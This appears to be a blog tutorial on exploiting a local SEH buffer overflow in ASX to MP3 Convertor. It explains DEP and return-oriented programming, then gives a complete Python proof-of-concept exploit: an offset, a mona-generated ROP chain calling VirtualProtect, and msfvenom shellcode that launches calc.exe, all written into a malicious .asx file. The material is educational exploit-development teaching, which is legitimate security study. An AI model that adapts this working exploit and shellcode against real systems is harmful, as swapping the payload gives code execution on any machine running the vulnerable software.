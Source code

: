 ```yaml
---
layout: single
title: Local SEH overflow with ROP to bypass DEP - ASX to MP3 Convertor exploitation
---
```


This post covers the exploitation of ASX to MP3 Convertor, which includes a local SEH overflow when processing files.

## Local SEH exploitation

This exploit is assuming you have already gone through the process of exploiting a local SEH overflow without any mitigations, now with the introduction of your first security mitigation, you need to learn how to bypass it.

## What is DEP

DEP (data execution prevention) is a microsoft implemented security mitigation to prevent malicious attackers from being able to execute code on the stack.

When writing an exploit, the malicious payload is delivered via a shellcode payload, which gets written onto the stack (the attack delivery can be something like a buffer overflow vulnerability) and when the shellcode is executed on the stack, it gives the attacker access to the system.

DEP works to prevent this by marking certain memory aspects and pages of memory as non-executable, where it won't execute code that is written onto it.

The question is, how can we bypass this, we need to work to get around, or disable DEP in order to have our exploit work.

DEP can be enabled or disabled via the advanced system setting of your computer.

![dep 1]()

## What is ROP

ROP is a commonly used technique by attackers to attack mitigations like DEP, ROP (return oriented programming), is a programming technique where the attacker will re-use pre-existing instructions that already exist within the application, where the attacker will call a series of memory address pertaining to code instructions in such a order that it actually creates a program-like execution within the application, without adding any code. It's a internal application code-reuse attack, where you use the application to attack itself.

ROP attacks are built of what's called a ROP chain, a ROP chain is comprised of ROP gadgets, and each of these gadgets are memory addresses of code to call. 

What's special about each instruction, is that it's a series of instructions that end in a `RET` assesmbly instruction, so after executing the instruction, it will return to the next gadget.

```
+-------------------+
|Instruction address|
|RET                |
|Instruction address|
|RET                |
|Instruction address|
|RET                |
|Instruction address|
|RET                |
|shellcode          |
+-------------------+
```

After each ROP gadet get's executed, it moves down the chain, and eventually the last RET will return to the first address of your shellcode payload.

**Our ROP payload**

We will be using a ROP payload which works to disable the DEP mitigation, and then we have it execute our shellcode.

## Generate ROP chains with Mona.py

You can use the mona.py syntax `!mona rop -m *.dll -cp nonull` to search through your application's DLL's for ROP gadgets that do no include null bytes.

![dep 1]()

## Pop a calculator

Include your ROP chain before your shellcode payload when creating your exploit.

Our final exploit looks like

```python
import struct
import sys

# Log data, item 39
# Address=0BADF00D
# Message=    EIP contains normal pattern : 0x36695735 (offset 17417)

# Log data, item 3
# Address=100371F5
# Message=  0x100371f5 : call esp |  {PAGE_EXECUTE_READ} [MSA2Mfilter03.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files (x86)\Mini-stream\ASX to MP3 Converter\MSA2Mfilter03.dll)

CALL_ESP = pack('<L', 0x100371f5)

#msfvenom -p windows/exec CMD=calc.exe -b "\x00\x09\x0A" -f python -v shellcode_calc
shellcode_calc =  ""
shellcode_calc += "\xba\x5f\x9b\xba\x75\xd9\xc2\xd9\x74\x24"
shellcode_calc += "\xf4\x5e\x33\xc9\xb1\x31\x83\xee\xfc\x31"
shellcode_calc += "\x56\x0f\x03\x56\x50\x79\x4f\x89\x86\xff"
shellcode_calc += "\xb0\x72\x56\x60\x38\x97\x67\xa0\x5e\xd3"
shellcode_calc += "\xd7\x10\x14\xb1\xdb\xdb\x78\x22\x68\xa9"
shellcode_calc += "\x54\x45\xd9\x04\x83\x68\xda\x35\xf7\xeb"
shellcode_calc += "\x58\x44\x24\xcc\x61\x87\x39\x0d\xa6\xfa"
shellcode_calc += "\xb0\x5f\x7f\x70\x66\x70\xf4\xcc\xbb\xfb"
shellcode_calc += "\x46\xc0\xbb\x18\x1e\xe3\xea\x8e\x15\xba"
shellcode_calc += "\x2c\x30\xfa\xb6\x64\x2a\x1f\xf2\x3f\xc1"
shellcode_calc += "\xeb\x88\xc1\x03\x22\x70\x6d\x6a\x8b\x83"
shellcode_calc += "\x6f\xaa\x2b\x7c\x1a\xc2\x48\x01\x1d\x11"
shellcode_calc += "\x33\xdd\xa8\x82\x93\x96\x0b\x6f\x22\x7a"
shellcode_calc += "\xcd\xe4\x28\x37\x99\xa3\x2c\xc6\x4e\xd8"
shellcode_calc += "\x48\x43\x71\x0f\xd9\x17\x56\x8b\x82\xcc"
shellcode_calc += "\xf7\x8a\x6e\xa2\x08\xcc\xd1\x1b\xad\x86"
shellcode_calc += "\xff\x48\xdc\xc4\x95\x8f\x52\x73\xdb\x90"
shellcode_calc += "\x6c\x7c\x4b\xf9\x5d\xf7\x04\x7e\x62\xd2"
shellcode_calc += "\x61\x70\x28\x7f\xc3\x19\xf5\x15\x56\x44"
shellcode_calc += "\x06\xc0\x94\x71\x85\xe1\x64\x86\x95\x83"
shellcode_calc += "\x61\xc2\x11\x7f\x1b\x5b\xf4\x7f\x88\x5c"
shellcode_calc += "\xdd\xe3\x4f\xcf\xbd\xcd\xea\x77\x27\x12"


def create_rop_chain():

    # rop chain generated with mona.py - www.corelan.be
    rop_gadgets = [
        0x01f915d6,  # POP ECX # RETN [MSA2Mcodec01.dll] ** REBASED 
        0x73421388,  # ptr to &VirtualProtect() [IAT COMCTL32.dll] ** REBASED ** ASLR
        0x7648fd52,  # MOV ESI,DWORD PTR DS:[ECX] # ADD DH,DH # RETN [MSCTF.dll] ** REBASED ** ASLR 
        0x736573a4,  # POP EBP # RETN [comctl32.DLL] ** REBASED ** ASLR 
        0x74abfb51,  # & call esp [MSVCP60.dll] ** REBASED ** ASLR
        0x74aa4083,  # POP EAX # RETN [MSVCP60.dll] ** REBASED ** ASLR 
        0xfffffdff,  # Value to negate, will become 0x00000201
        0x761a65e0,  # NEG EAX # RETN [ole32.dll] ** REBASED ** ASLR 
        0x7648f9f1,  # XCHG EAX,EBX # RETN [MSCTF.dll] ** REBASED ** ASLR 
        0x04226922,  # POP EAX # RETN [MSA2Mctn01.dll] ** REBASED 
        0xffffffc0,  # Value to negate, will become 0x00000040
        0x032620f9,  # NEG EAX # RETN [MSA2Mfilter01.dll] ** REBASED 
        0x6fbd5d15,  # XCHG EAX,EDX # RETN [WMVCore.DLL] ** REBASED ** ASLR 
        0x753d1a65,  # POP ECX # RETN [SHELL32.dll] ** REBASED ** ASLR 
        0x032baa90,  # &Writable location [MSA2Mfilter01.dll] ** REBASED
        0x10028e6c,  # POP EDI # RETN [MSA2Mfilter03.dll] 
        0x6fd3bf87,  # RETN (ROP NOP) [WMVCore.DLL] ** REBASED ** ASLR
        0x763816cc,  # POP EAX # RETN [SHLWAPI.dll] ** REBASED ** ASLR 
        0x90909090,  # nop
        0x73535fa6,  # PUSHAD # RETN [comctl32.DLL] ** REBASED ** ASLR 
    ]
    return ''.join(struct.pack('<I', _) for _ in rop_gadgets)

rop_chain = create_rop_chain()

rop_chain = create_rop_chain()
                                        #-----------------------------------\
payload = "http://"                     # Header for the payload            |
payload += "A" * 17417                  # Fill up the buffer with junk      |
payload += rop_chain                    # Excute out ROP chain from Mona    |
payload += "\x90" * 16                  # NOPSLED to catch out jump         |
payload += shellcode_calc               # Spawns a calculator               |
payload += "D" *(40000 - len(payload))  # Extra filler to ensure a crash    |
                                        #-----------------------------------/
try:
    print("[x] Exploit POC for ASX to MP3 converter\n")
    file_payload = open("ASXtoMP3_malicious.asx", 'w')
    print("[x] Creating a .asx file for out payload")
    file_payload.write(payload)
    print("[x] Writing malicious payload to .asx file")
    file_payload.close()
    print("[x] Load the malicious .asx file to spawn a calculator")
except:
    print("[!] Failed to create malicious .asx")
```

You can now execute your malicious payload to pop a calculator, and bypassing DEP in the process.

![dep 2]()
